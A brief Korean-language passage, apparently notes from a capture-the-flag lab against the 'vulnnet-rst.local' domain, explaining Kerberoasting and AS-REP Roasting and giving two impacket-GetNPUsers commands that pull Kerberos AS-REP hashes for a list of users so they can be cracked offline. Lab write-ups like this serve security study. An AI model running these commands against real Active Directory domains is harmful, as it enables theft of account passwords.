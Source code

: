 
- **목적:** 서비스 주체 이름(SPN)이 등록된 계정을 찾아 서비스 티켓을 요청하고, 이를 오프라인에서 크랙하여 계정의 비밀번호를 알아냅니다.
- Kerberos 사전 인증이 비활성화된 사용자를 찾아 암호 해시를 추출하는 **AS-REP Roasting 공격**을 수행.
- ---


```bash
impacket-GetNPUsers vulnnet-rst.local/ -dc-ip $target -usersfile name.txt -format john -outputfile hashes.txt
```


```bash
impacket-GetNPUsers vulnnet-rst.local/ -dc-ip $target -usersfile name.txt -outputfile hashes.txt
```


